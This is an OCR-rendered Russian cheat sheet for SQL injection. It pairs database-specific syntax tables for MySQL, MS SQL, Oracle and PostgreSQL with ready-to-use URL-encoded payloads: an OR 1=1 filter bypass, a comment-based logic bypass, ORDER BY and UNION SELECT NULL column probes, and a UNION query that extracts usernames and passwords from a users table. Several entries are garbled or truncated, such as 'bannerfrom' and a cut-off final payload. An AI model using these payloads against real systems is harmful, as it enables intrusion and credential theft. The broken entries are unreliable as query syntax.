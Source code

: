 | Конструкция | Комментирование остатка строки | Получение версии   | Конкатенация строк                             |
| ---------------------- | ---------------------------------------------------------- | --------------------------------- | --------------------------------------------------------------- |
| MySQL                  | `-- ... `, `/* ... */.`, или `# ...`             | `version()`                     | `concat (string1, string2)`                                 |
| MS SQL                 | `-- ...`                                                | `@@version`                     | `string1 + string2`                                         |
| Oracle                 | `-- ...` или `/* ...`                             | `select bannerfrom v$version` | `string1 \|\| string2 `или `concat (string1, string2)` |
| PostgreSQL             | `-- ...`                                                | `SELECT version()`              | `string1 \|\| string2`, `CONCAT('a','b') `                  |

| Получение скрытых данных | Подрыв логики приложения |
| ---------------------------------------------- | ---------------------------------------------- |
| `'+OR+1=1- -`                                | `' -- `                                      |

| Определение количества<br />столбцов | Извлечение данных                                | Получение нескольк<br />их значений в одном столбце |
| ------------------------------------ | ------------------------------------------------ | --------------------------------------------------- |
| `'+ORDER+BY+1--`                     |                                                  |                                                     |
| `'+ORDER+BY+2--`                     |                                                  |                                                     |
| `'+ORDER+BY+3--`                     | `'+UNION+SELECT+username,+password+FROM+users--` | `' UNION SELECT username`                           |
| `'+UNION+SELECT+NULL--`              |                                                  |                                                     |
| `'+UNION+SELECT+NULL,NULL--`         |                                                  |                                                     |
| `'+UNION+SELECT+NULL,NULL,NULL--`    |                                                  |                                                     |
| `'+UNION+SELECT+'a',NULL,NULL--`     |                                                  |                                                     |
| `'+UNION+SELECT+NULL,'a',NULL--`     |                                                  |                                                     |
| `'+UNION+SELECT+NULL,NULL,'a'--`     |                                                  |                                                     |

